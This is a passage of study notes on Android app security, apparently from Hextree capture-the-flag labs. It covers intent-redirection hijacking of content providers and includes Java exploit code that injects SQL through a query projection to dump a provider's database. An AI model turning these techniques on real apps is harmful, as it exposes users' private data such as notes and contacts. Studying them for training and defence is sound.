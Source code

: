 ### from another app against intent content provider
```java

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        
        TextView textView = findViewById(R.id.text);
        Intent intent = new Intent("io.hextree.FLAG33");
        intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag33Activity1");
        startActivityForResult(intent, 1);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {

        TextView textView = findViewById(R.id.text);
        Uri uri = data.getData();

        try {
            String[] projection = new String[]{"title, content,1 from Note -- "} ;
            Cursor cursor = getContentResolver().query(uri, projection, null, null, null);
            textView.setText(DatabaseUtils.dumpCursorToString(cursor));
        } catch (Exception e) {
            textView.setText(e.toString());
        }


    }
```

## Hijacking Content Provider Access
- While apps can intentionally share access to Content Providers, sometimes apps can also be forced to do it unintentionally.
- the following code is vuln to intent rediection we can send an intent to it , then it will redirect it as if it send it
```java
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        Log.i("Process", "id in stealing flag 8: " + Process.myPid());
        this.f182f = new LogHelper(this);
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            if (callingActivity.getClassName().contains("Hextree")) {
                this.f182f.addTag("calling class contains 'Hextree'");
                success(this);
            } else {
                Log.i("Flag8", "access denied");
                setResult(0, getIntent());
            }
        }
    }

```
- this can be exploited to pass content provider permssions to our selves
- also if the vuln app has permssions to other content providers such as contacts we can use it
```java
@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
```